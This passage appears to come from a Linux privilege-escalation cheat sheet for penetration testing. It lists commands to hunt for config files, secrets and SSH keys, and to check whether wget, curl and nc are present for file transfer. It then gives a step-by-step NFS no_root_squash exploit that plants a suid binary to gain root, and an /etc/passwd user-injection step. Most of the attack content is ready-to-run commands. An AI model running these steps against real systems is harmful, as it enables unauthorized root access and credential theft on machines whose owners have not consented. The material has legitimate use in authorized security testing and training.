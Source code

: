 Anything other than root here?

- Any config files left behind?
` ls -lsaht |grep -i ‘.conf’ --color=auto`
- If we have root priv information disclosure - are there any .secret in /etc/ files?
`ls -lsaht |grep -i ‘.secret’ --color=auto`
## SSH Keys
```
ls -lsaR /home/
```
## Files that may have interesting stuff
```
ls -lsaht /var/lib/
ls -lsaht /var/db/
ls -lsaht /opt/
ls -lsaht /tmp/
ls -lsaht /var/tmp/
ls -lsaht /dev/shm/
```
## File Transfer Capability
```
which wget
which curl
which nc
which fetch (BSD)

ls -lsaht /bin/ |grep -i 'ftp' --color=auto
```
## NFS? 
Can we exploit weak NFS Permissions?
```
cat /etc/exports
```
## no_root_squash
[https://recipeforroot.com/attacking-nfs-shares/](https://recipeforroot.com/attacking-nfs-shares/)

On Attacking Machine
```
mkdir -p /mnt/nfs/
mount -t nfs -o vers=<version 1,2,3> $IP:<NFS Share> /mnt/nfs/ -nolock
gcc suid.c -o suid
cp suid /mnt/nfs/
chmod u+s /mnt/nfs/suid
su <user id matching target machine's user-level privilege.>
```

On Target Machine

```
user@host$ ./suid
```
## File mounts
Any exotic file system mounts/extended attributes?
```
cat /etc/fstab
```
## User creation
Can we write as a low-privileged user to /etc/passwd?
```
openssl passwd -1
i<3hacking
```